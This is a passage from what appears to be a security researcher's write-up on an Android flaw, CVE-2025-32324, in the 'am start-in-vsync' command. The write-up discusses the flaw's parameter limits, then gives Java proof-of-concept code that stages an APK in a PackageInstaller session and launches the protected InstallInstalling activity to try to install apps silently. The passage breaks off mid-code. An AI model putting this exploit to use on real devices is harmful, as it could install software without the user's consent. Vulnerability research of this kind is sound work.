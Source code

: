 This means attackers are restricted to using the `am` command-line utility, which significantly limits the types of parameters that can be passed to target activities. Specifically, you cannot include arbitrary Parcelable objects in the Intent, which rules out many advanced exploitation techniques that rely on complex data structures.

This parameter restriction is particularly limiting because it prevents chaining this vulnerability with Intent Bridge attacks against third-party applications (UID > 10000) to access their FileProviders, which is a common technique in Android exploitation.

## Exploitation Attempts

### Silent Installation Attack

My first instinct was to weaponize this vulnerability for silent APK installation by targeting the PackageInstaller's `InstallInstalling` activity. The theory was sound: if I could launch this normally-protected activity with system-level privileges, I might be able to bypass the user confirmation dialogs.

I crafted the following exploitation approach:

```java
public static int writeApkToPackageInstaller(Context context, File apkFile) throws IOException {
    if (!apkFile.exists() || !apkFile.getName().endsWith(".apk")) {
        Log.e(TAG, "Must use an apk file to silent install.");
        return -1;
    }
    
    // step 1: create a PackageInstaller session (this part works fine)
    PackageInstaller pi = context.getPackageManager().getPackageInstaller();
    PackageInstaller.SessionParams params =
            new PackageInstaller.SessionParams(PackageInstaller.SessionParams.MODE_FULL_INSTALL);
    int sessionId = pi.createSession(params);
    PackageInstaller.Session session = pi.openSession(sessionId);
    
    // step 2: stream the APK data into the session
    OutputStream os = session.openWrite("package", 0, -1);
    FileInputStream fis = new FileInputStream(apkFile);
    byte[] buffer = new byte[4096];
    for (int n; (n = fis.read(buffer)) > 0;) {
        os.write(buffer, 0, n);  // push APK bytes into the installer
    }
    fis.close();
    os.flush();
    os.close();
    return sessionId;  // return the session ID for later use
}

public static void exploitCVE_2025_32324(int sessionId, File apkFile) throws IOException {
    if (!Android.checkIfSecurityPatchBefore("2025-09-01")) {
        Log.e(TAG, "Oops! It looks like CVE-2025-32324 bug has been fixed on this device.");
        return;
    }
    
    // here's the magic: use start-in-vsync to bypass activity export restrictions
    String[] cmd = {
            "am", "start-in-vsync",  // the vulnerable command that loses auth context
            "-n", Constants.Package.PACKAGE_INSTALLER + "/.InstallInstalling",
            "-d", Uri.fromFile(apkFile).toString(),  // point to our APK
            "--ei", "EXTRA_STAGED_SESSION_ID", Integer.toString(sessionId),  // link to session
    };
    
    // fire off the exploit and hope for the best
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String output;
```